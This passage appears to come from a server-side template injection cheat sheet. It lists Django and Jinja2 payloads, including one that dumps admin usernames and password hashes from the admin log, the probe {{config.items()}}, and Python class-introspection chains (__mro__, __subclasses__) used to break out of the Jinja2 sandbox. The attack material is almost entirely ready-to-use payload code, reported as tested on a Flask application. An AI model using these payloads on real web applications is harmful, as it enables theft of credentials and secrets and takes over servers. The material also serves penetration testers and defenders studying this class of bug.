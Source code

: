 ```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}
```

## Jinja2

[Official website](https://jinja.palletsprojects.com/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.  

### Jinja2 - Basic injection

```python
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
{{config.items()}}
```

Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on a Flask application.

### Jinja2 - Template format

```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

### Jinja2 - Debug Statement

If the Debug Extension is enabled, a `{% debug %}` tag will be available to dump the current context as well as the available filters and tests. This is useful to see what’s available to use in the template without setting up a debugger.

```python
<pre>{% debug %}</pre>
```

Source: https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement

### Jinja2 - Dump all used classes

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```
